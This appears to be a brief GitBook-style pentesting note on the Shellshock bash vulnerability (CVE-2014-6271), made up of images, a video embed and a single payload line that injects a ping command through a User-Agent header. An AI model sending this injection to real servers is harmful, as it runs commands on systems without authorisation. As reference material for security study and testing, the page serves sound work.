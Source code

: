 ```yaml
---
description: CVE-2014-6271
---
```


# Shellshock

![](../../.gitbook/assets/Shellshock\_bash.svg.png)

```
User-Agent: () {:;}; ping -c 5 -p rfs_string <IP>
```

```
// Some code
```

![](../../.gitbook/assets/shellshock\_2.jpg)

{% embed url="https://www.youtube.com/watch?v=MyldPMn95kk" %}
